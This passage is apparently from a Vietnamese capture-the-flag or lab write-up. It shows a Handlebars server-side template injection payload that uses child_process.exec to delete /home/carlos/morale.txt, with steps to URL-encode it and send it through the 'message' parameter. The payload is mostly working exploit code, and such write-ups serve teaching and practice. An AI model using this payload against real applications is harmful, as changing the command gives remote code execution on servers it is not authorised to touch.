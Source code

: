 ```jsx
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Sửa paylad để xóa `/home/carlos/morale.txt`

```jsx
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

URL encode và gửi payload qua param `message`

![Untitled](wu_media/Untitled%2018.png)

---